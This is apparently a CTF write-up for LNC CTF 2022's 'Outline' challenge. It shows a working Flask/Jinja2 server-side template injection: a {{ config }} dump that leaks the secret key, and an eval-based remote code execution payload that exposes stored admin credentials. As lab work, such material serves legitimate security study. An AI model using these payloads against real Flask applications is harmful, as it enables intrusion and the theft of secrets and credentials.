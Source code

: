 # Outline (Task 1 & 2) (Flask SSTI)

Here is how I've solved the "Outline" challenge for Task 1 and 2 in LNC CTF 2022.

## Challenge description
Oh look its a vulnerable flask app! There are 2 flags hidden here. Good luck!

Task 1: Retrieve the flag from its configs  
`nc c2.lagncrash.com 8002`

Task 2: /flag seems to have an error... Try accessing as one of the other users!
`nc c2.lagncrash.com 8002`


## Solution & step-by-step walkthrough
Firstly, let us netcat into the server provided.  
```[spawner] Spinning up new instance of:
[spawner]     Outline
[spawner]
[spawner] Access your challenge at:
[spawner]     http://c2.lagncrash.com:12571/
[spawner]
[spawner] ------------------------- NOTE --------------------------
[spawner] Hit [Enter] to destroy your challenge instance once done!

```
The server has spawned a link for us to connect. Let us visit that link in our browser.

![image](https://user-images.githubusercontent.com/58442255/160234742-602fdaf6-1657-413c-8fc9-ef7142ec36ba.png)  
We're presented with a login screen. Register for an account by clicking the "Sign up!" button and login.

Once we've logged in, we see 4 text fields for us to enter information.

![image](https://user-images.githubusercontent.com/58442255/160234811-8816423f-9418-4782-a5a2-903c537f5b07.png)  
Since this is a flask server (presumably mainly written in Python?), we will test for Server-Side Template Injection(SSTI). 
Refer to this for more info: https://github.com/w181496/Web-CTF-Cheatsheet#ssti (or https://github-com.translate.goog/w181496/Web-CTF-Cheatsheet?_x_tr_sl=zh-CN&_x_tr_tl=en&_x_tr_hl=en-US&_x_tr_pto=wapp#ssti because parts of the link is in Chinese, but if you take CL as yr MT you should be able to read :)) and this https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection 
![image](https://user-images.githubusercontent.com/58442255/160234843-9bbe8480-a4ff-453d-8ad4-be19ca954989.png)
![image](https://user-images.githubusercontent.com/58442255/160234857-7babe2a8-3681-4468-9cbb-6889a9dfabb9.png)

We get this:
```
From: To: Subject: 7777777
```
It is apparent that the server (Flask) is vulnerable to SSTI.  


### Task 1
We can get the config of the server by typing in:
```
{{ config }}
```
We get this:
```
From: To: Subject: <Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'LNC2022{s1mpl3_fl4sk_s3rv3r_s1d3_t3mpl4t3_1nj3c10n}', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': None, 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093}>
```
Flag:
```
LNC2022{s1mpl3_fl4sk_s3rv3r_s1d3_t3mpl4t3_1nj3c10n}
```


### Task 2
The challenge asks us to go to /flag.

When we visit `http://c2.lagncrash.com:<port here>/flag`, we get:
```
You are not allowed to view this page
```
Probably something to do with the current user.

 https://github.com/w181496/Web-CTF-Cheatsheet#ssti (or https://github-com.translate.goog/w181496/Web-CTF-Cheatsheet?_x_tr_sl=zh-CN&_x_tr_tl=en&_x_tr_hl=en-US&_x_tr_pto=wapp#ssti for translated version)
shows us that we can perform Python3 RCE.

From the link, we can perform Python RCE using this template
```python
{% for c in [].__class__.__base__.__subclasses__() %}
  {% if c.__name__ == 'catch_warnings' %}
    {%  for  b  in  c . __init__ . __globals__ . values ​​() % }
    {% if b.__class__ == {}.__class__ %}
      {% if 'eval' in b.keys() %}
        {{ b['eval']('<PYTHON CODE HERE>') }}
      {% endif %}
    {% endif %}
    {% endfor %}
  {% endif %}
{% endfor %}
```

Where shall we look though?
Let us look at the available local and global variables. 

A quick search of "get all variables in current scope python" returns this Stack Overflow post: https://stackoverflow.com/a/1041906/12204281

We can use this:
```python
dict(globals(), **locals())
```

Hence our SSTI template would be:
```python
    {% for c in [].__class__.__base__.__subclasses__() %}
      {% if c.__name__ == 'catch_warnings' %}
        {% for b in c.__init__.__globals__.values() %}
        {% if b.__class__ == {}.__class__ %}
          {% if 'eval' in b.keys() %}
            {{ b['eval']('dict(globals(), **locals())') }}
          {% endif %}
        {% endif %}
        {% endfor %}
      {% endif %}
    {% endfor %}
```
We get this:
![image](https://user-images.githubusercontent.com/58442255/160236072-fecc0c49-c0fa-4e7b-821a-fe8fd150374c.png)
You can see that at the bottom of the page there is some login credentials.  
Most notably, there is this set of credentials:
```python
'username': 'bigboiadmin', 'password': '2548dac1cb1bc28328c7f92cab9cf68ebf3d15a4514268a95f9b34619b456350'
```
Let us log out by reconnecting through netcat (like we did earlier).  
When we login with the supplied credentials, we get "Authentication failed".  
Perhaps the account isn't created? Let's go create an account with the above username and password.
![image](https://user-images.githubusercontent.com/58442255/160236223-f99ef853-ce47-4bcb-898c-bb4bd7217eef.png)

Once we're logged in, we can check the /flag page.  
![Screenshot from 2022-03-26 18-53-31](https://user-images.githubusercontent.com/58442255/160236284-16bd6d1c-7298-4516-a6e2-b8d14e594a46.png)

Flag:
```
LNC2022{n0t_4s_s1mpl3_fl4sk_s3rv3r_s1d3_t3mpl4t3_1nj3c10n}
```

Thanks!
